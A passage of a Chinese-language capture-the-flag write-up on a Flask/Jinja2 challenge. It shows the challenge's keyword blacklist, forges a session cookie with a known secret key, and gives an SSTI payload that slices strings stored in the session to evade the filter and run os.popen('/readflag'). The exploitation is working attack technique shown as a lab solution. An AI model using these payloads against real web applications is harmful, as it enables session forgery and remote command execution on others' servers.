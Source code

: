然后我们就可以进行session伪造了，但是由于等会需要进行ssti(但是过滤了很多)

```python
blacklist = ['_', "'", '"', '.', 'system', 'os', 'eval', 'exec', 'popen', 'subprocess',
'posix', 'builtins', 'namespace','open', 'read', '\\', 'self', 'mro', 'base',
'global', 'init', '/','00', 'chr', 'value', 'get', "url", 'pop', 'import',
'include','request', '{{', '}}', '"', 'config','=']
```

这里有两种写法：

法一：（字符串拼接）不推荐，很难拼



法二：

这里session是可控的，所以我们可以把需要的字符串先存入session中，然后在ssti时从session中取值

> `{%print(session)%}`这样可以把session的值打印出来
>
> 我在这里学到了新的东西，jinja2的字符串可以进行字符串切片
>
> 首先我们需要把`session`转为字符串，我们使用`string过滤器`
>
> ```
> (session|string)[39:50]
> ```
>
> 这样就可以打印出session中的一段值了

首先使用脚本构造flask session：(这里我们把ssti需要使用的字符串也构造到session中了)

```python
python flask_session_cookie_manager3.py encode -s "bxdQy9DN6FiCBXhNZFm3YwAgJ+Mn4+mRFiI0sYEP*NeepuCTF*" -t "{'/readflag': 0, '__globals__': 0, 'admin': 1, 'os': 0,'popen': 0, 'read': 0}"

.eJyrVtIvSk1MSctJTFeyMtBRio9Pz8lPSswpjo8H8xNTcjPzlKwMdZTyi8ECBfkFqXlgFkgfkFELAMoaFFg.ZG5POw.jWk5AQmFaC172YwAbMbUXlICmm4
```

![image-20230525025204438](https://s2.loli.net/2023/05/25/MoyJRDLIkpwg7ze.png)

如图，我们将session变量的值打印出来了，其中包含我们可以利用的字符串

接下来我们只需要构造如下ssti即可：

```jinja2
{%print(lipsum["__globals__"]["os"]["popen"]("/readflag")["read"]())%}
```

结合session的payload:

```jinja2
{%print(lipsum[(session|string)[39:50]][(session|string)[69:71]][(session|string)[78:83]]((session|string)[23:32])[(session|string)[24:28]]())%}
```

![image-20230525025419723](https://s2.loli.net/2023/05/25/EZB1Te6imHUgFbu.png)



##### 非预期

伪造pin码





